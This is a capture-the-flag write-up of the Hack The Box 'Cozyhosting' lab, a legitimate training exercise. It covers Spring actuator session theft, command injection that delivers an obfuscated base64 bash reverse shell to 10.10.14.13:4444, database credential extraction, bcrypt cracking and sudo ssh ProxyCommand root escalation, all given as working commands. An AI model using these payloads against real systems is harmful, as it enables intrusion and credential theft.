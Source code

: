 ```yaml
---
title: HTB - Cozyhosting
date: 2023-11-25
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, http, webserver, nginx, whatweb, wappalyzer, gobuster, dirsearch, cookies, burp-suite, jar, psql, postgres, hash, john, gtfobins]
img_path: /assets/htb/fullpwn/cozyhosting/
published: true
---
```


![room_banner](cozy_banner.png)

## Overview

|:-:|:-:|
|Machine|[Cozyhosting](https://app.hackthebox.com/machines/559)|
|Rank|Easy|
|Time|3h14m|
|Focus|Dir-busting, cookies|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## 1. Enumeration

```shell
# port scanning
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 cozy

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Web Server Enum

```shell
# tech used
whatweb http://cozyhosting.htb

http://cozyhosting.htb [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]
```

```page-source
    <!-- =======================================================
    * Template Name: FlexStart
    * Updated: Mar 10 2023 with Bootstrap v5.2.3
    * Template URL: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
    * Author: BootstrapMade.com
    * License: https://bootstrapmade.com/license/
    ======================================================== --
```

```page-source-login
   <!-- =======================================================
    * Template Name: NiceAdmin
    * Updated: Mar 09 2023 with Bootstrap v5.2.3
    * Template URL: https://bootstrapmade.com/nice-admin-bootstrap-admin-html-template/
    * Author: BootstrapMade.com
    * License: https://bootstrapmade.com/license/
    ======================================================== --
```

<figure>
    <img src="wappalyzer.png"
    alt="Wappalyzer report" >
</figure>

```shell
gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```

```shell
dirsearch -u http://cozyhosting.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_cozyhosting.htb/__23-11-22_21-03-43.txt

Target: http://cozyhosting.htb/

[21:03:43] Starting:
[21:03:48] 200 -    0B  - /;/json
[21:03:48] 200 -    0B  - /;/login
[21:03:48] 200 -    0B  - /;json/
[21:03:48] 200 -    0B  - /;/admin
[21:03:48] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:03:48] 200 -    0B  - /;login/
[21:03:48] 200 -    0B  - /;admin/
[21:03:48] 400 -  435B  - /a%5c.aspx
[21:03:49] 200 -    0B  - /actuator/;/auditevents
[21:03:49] 200 -    0B  - /actuator/;/auditLog
[21:03:49] 200 -    0B  - /actuator/;/caches
[21:03:49] 200 -    0B  - /actuator/;/configurationMetadata
[21:03:49] 200 -    0B  - /actuator/;/env
[21:03:49] 200 -    0B  - /actuator/;/configprops
[21:03:49] 200 -    0B  - /actuator/;/events
[21:03:49] 200 -    0B  - /actuator/;/exportRegisteredServices
[21:03:49] 200 -    0B  - /actuator/;/healthcheck
[21:03:49] 200 -    0B  - /actuator/;/dump
[21:03:49] 200 -    0B  - /actuator/;/heapdump
[21:03:49] 200 -    0B  - /actuator/;/conditions
[21:03:49] 200 -    0B  - /actuator/;/beans
[21:03:49] 200 -    0B  - /actuator/;/health
[21:03:49] 200 -    0B  - /actuator/;/features
[21:03:49] 200 -    0B  - /actuator/;/httptrace
[21:03:49] 200 -    0B  - /actuator/;/info
[21:03:49] 200 -    0B  - /actuator/;/integrationgraph
[21:03:49] 200 -    0B  - /actuator/;/flyway
[21:03:49] 200 -    0B  - /actuator/;/jolokia
[21:03:49] 200 -    0B  - /actuator/;/liquibase
[21:03:49] 200 -    0B  - /actuator/;/logfile
[21:03:49] 200 -    0B  - /actuator/;/loggers
[21:03:49] 200 -    0B  - /actuator/;/loggingConfig
[21:03:49] 200 -    0B  - /actuator/;/metrics
[21:03:49] 200 -    0B  - /actuator/;/mappings
[21:03:49] 200 -    0B  - /actuator/;/prometheus
[21:03:49] 200 -    0B  - /actuator/;/scheduledtasks
[21:03:49] 200 -    0B  - /actuator/;/refresh
[21:03:49] 200 -    0B  - /actuator/;/registeredServices
[21:03:49] 200 -    0B  - /actuator/;/resolveAttributes
[21:03:49] 200 -    0B  - /actuator/;/releaseAttributes
[21:03:49] 200 -    0B  - /actuator/;/sessions
[21:03:49] 200 -    0B  - /actuator/;/ssoSessions
[21:03:49] 200 -    0B  - /actuator/;/shutdown
[21:03:49] 200 -    0B  - /actuator/;/sso
[21:03:49] 200 -    0B  - /actuator/;/springWebflow
[21:03:49] 200 -    0B  - /actuator/;/statistics
[21:03:49] 200 -    0B  - /actuator/;/threaddump
[21:03:49] 200 -    0B  - /actuator/;/trace
[21:03:49] 200 -    0B  - /actuator/;/status
[21:03:49] 200 -  245B  - /actuator/sessions
[21:03:49] 200 -  634B  - /actuator
[21:03:49] 200 -    5KB - /actuator/env
[21:03:49] 200 -  124KB - /actuator/beans
[21:03:49] 200 -   15B  - /actuator/health
[21:03:49] 200 -   10KB - /actuator/mappings
[21:03:49] 401 -   97B  - /admin
[21:03:49] 200 -    0B  - /admin/%3bindex/
[21:03:50] 200 -    0B  - /admin;/
[21:03:50] 200 -    0B  - /Admin;/
[21:03:56] 200 -    0B  - /axis//happyaxis.jsp
[21:03:56] 200 -    0B  - /axis2-web//HappyAxis.jsp
[21:03:56] 200 -    0B  - /axis2//axis2-web/HappyAxis.jsp
[21:04:00] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[21:04:04] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[21:04:04] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[21:04:04] 500 -   73B  - /error
[21:04:04] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[21:04:04] 200 -    0B  - /extjs/resources//charts.swf
[21:04:07] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[21:04:08] 200 -    0B  - /jkstatus;
[21:04:10] 200 -    4KB - /login
[21:04:10] 200 -    0B  - /login.wdm%2e
[21:04:11] 204 -    0B  - /logout

Task Completed
```

<figure>
    <img src="actuator_sessions.png"
    alt="actuator-sessions subdirectory" >
</figure>

> Change cookie value with Burp Suite.

<figure>
    <img src="logged_in.png"
    alt="Logging into the website" >
</figure>

# 3. Initial Foothold

<figure>
    <img src="burp_admin_execute-ssh.png"
    alt="Execute ssh function" >
</figure>

<figure>
    <img src="bash_error.png"
    alt="Bash response error" >
</figure>

<figure>
    <img src="execute_ssh_without_user.png"
    alt="SSH response info" >
</figure>

```shell
echo "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK
```

```shell
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

> URL encode key chars (`CTRL+U`) and send the above payload as the `username` param. 

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.230] 40406
bash: cannot set terminal process group (1064): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$
```

## 4. Lateral movement

> Stabilize shell.

```shell
app@cozyhosting:/app$ netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN

app@cozyhosting:/app$ netstat -lt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:postgresql    0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
tcp6       0      0 localhost:http-alt      [::]:*                  LISTEN
```

```shell
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar

# transfer file
app@cozyhosting:/app$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

```shell
wget http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
--2023-11-25 17:21:06--  http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
Resolving cozyhosting.htb (cozyhosting.htb)... 10.10.11.230
Connecting to cozyhosting.htb (cozyhosting.htb)|10.10.11.230|:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.ja 100%[========================>]  57.47M  11.5MB/s    in 5.5s

2023-11-25 17:21:12 (10.5 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

```shell
ls
cloudhosting-0.0.1.jar

file cloudhosting-0.0.1.jar
cloudhosting-0.0.1.jar: Java archive data (JAR)

apropos cloudhosting-0.0.1.jar
cloudhosting-0.0.1.jar: nothing appropriate.
```

> [How to open JARs](https://www.makeuseof.com/jar-file-open-using-command-line/).

```shell
# check content
jar tf cloudhosting-0.0.1.jar
META-INF/
META-INF/MANIFEST.MF
org/
org/springframework/
org/springframework/boot/
org/springframework/boot/loader/
org/springframework/boot/loader/ClassPathIndexFile.class
org/springframework/boot/loader/ExecutableArchiveLauncher.class
org/springframework/boot/loader/JarLauncher.class
org/springframework/boot/loader/LaunchedURLClassLoader$DefinePackageCallType.class
org/springframework/boot/loader/LaunchedURLClassLoader$UseFastConnectionExceptionsEnumeration.class
org/springframework/boot/loader/LaunchedURLClassLoader.class
org/springframework/boot/loader/Launcher.class
org/springframework/boot/loader/MainMethodRunner.class
...
```

```shell
# extract file
jar xf cloudhosting-0.0.1.jar
ls
BOOT-INF  cloudhosting-0.0.1.jar  META-INF  org

┌──(kali㉿CSpanias)-[~/htb/cozyhosting/BOOT-INF/classes]
└─$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

```shell
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

> Postgres [cheatsheet](https://postgrescheatsheet.com/#/databases).

```shell
# list databases
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

# connect to cozyhosting database
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

# list tables
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# select * from users;
 name | password | role
------+----------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

cozyhosting-# select * from hosts;
 id | username  |      hostname
----+-----------+--------------------
  1 | kanderson | suspicious mcnulty
  5 | kanderson | boring mahavira
  6 | kanderson | stoic varahamihira
  7 | kanderson | awesome lalande
(4 rows)
```

```shell
┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash

┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ cat hash
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

> `$2a$` is [_blowfish_](https://www.baeldung.com/cs/des-vs-3des-vs-blowfish-vs-aes#3-blowfish).

```shell
┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:05 DONE (2023-11-25 18:00) 0.1814g/s 522.6p/s 522.6c/s 522.6C/s onlyme..soccer9
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```shell
app@cozyhosting:/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/fals
```

```shell
app@cozyhosting:/app$ su josh
Password:
# manchesterunited
josh@cozyhosting:/app$
josh@cozyhosting:/app$ cat ~/user.txt
1ce25812e75a54178b64f6258b0d83c6
```

## 5. Privilege escalation

```shell
josh@cozyhosting:/app$ sudo -l
[sudo] password for josh:
# manchesterunited
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

<figure>
    <img src="gtfobins_sudo_ssh.png"
    alt="GTFO Sudo ssh" >
</figure>

```shell
josh@cozyhosting:/app$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat ~/root.txt
07964e5398eaa692f7994088783567f3
```

## New things

1. [`dirsearch`](https://github.com/maurosoria/dirsearch)

2. White Label Error Page

    > _WhiteLabel Error Handling is a simple way to handle errors that is easy to customize. You can change the error pages that are displayed to users, and you can also configure the error code that is displayed and whether or not the stack trace is included._

    <figure>
        <img src="whitelabel_error_page.jpg"
        alt="White label error page" >
    </figure>

    <figure>
        <img src="spring_actuators_hacktricks.png"
        alt="White label error page" >
    </figure>

    > [Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

    The Spring Boot Framework includes a number of features called actuators to help you monitor and manage your web application when you push it to production. Intended to be used for auditing, health, and metrics gathering, they can also open a hidden door to your server when misconfigured.
    
    When a Spring Boot application is running, it automatically registers several endpoints (such as '/health', '/trace', '/beans', '/env' etc) into the routing process. For Spring Boot 1 - 1.4, they are accessible without authentication, causing significant problems with security. Starting with Spring version 1.5, all endpoints apart from '/health' and '/info' are considered sensitive and secured by default, but this security is often disabled by the application developers.
    
    The following Actuator endpoints could potentially have security implications leading to possible vulnerabilities:

    /dump - displays a dump of threads (including a stack trace)
    /trace - displays the last several HTTP messages (which could include session identifiers)
    /logfile - outputs the contents of the log file
    /shutdown - shuts the application down
    /mappings - shows all of the MVC controller mappings
    /env - provides access to the configuration environment
    /restart - restarts the application
    
    **For Spring 1x, they are registered under the root URL, and in 2x they moved to the "/actuator/" base path.**


3. URL key chars encoding:

    ```shell
    # 
    ;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

    # URL encoded
    %3b%65%63%68%6f%24%7b%49%46%53%25%3f%3f%7d%22%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4d%79%38%30%4e%44%51%30%49%44%41%2b%4a%6a%45%4b%22%24%7b%49%46%53%25%3f%3f%7d%7c%24%7b%49%46%53%25%3f%3f%7d%62%61%73%65%36%34%24%7b%49%46%53%25%3f%3f%7d%2d%64%24%7b%49%46%53%25%3f%3f%7d%7c%24%7b%49%46%53%25%3f%3f%7d%62%61%73%68%3b%0a

    # URL key chars encoded
    %3becho${IFS%25%3f%3f}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA%2bJjEK"${IFS%25%3f%3f}|${IFS%25%3f%3f}base64${IFS%25%3f%3f}-d${IFS%25%3f%3f}|${IFS%25%3f%3f}bash%3b
    ```

4. Internal Field Separator (IFS) variable

    - [Bash IFS - What is the Internal Field Separator?](https://delightlylinux.wordpress.com/2020/02/16/bash-ifs-what-is-the-internal-field-separator/)
    - [Linux Shell - What is IFS?](https://www.theunixschool.com/2020/05/linux-shell-what-is-ifs.html)

5. JAR file manipulation

    - [How to Open a JAR File Using the Command Line](https://www.makeuseof.com/jar-file-open-using-command-line/) -->

<figure>
    <img src="cozy_pwned.png"
    alt="Cozy machine pwned" >
</figure>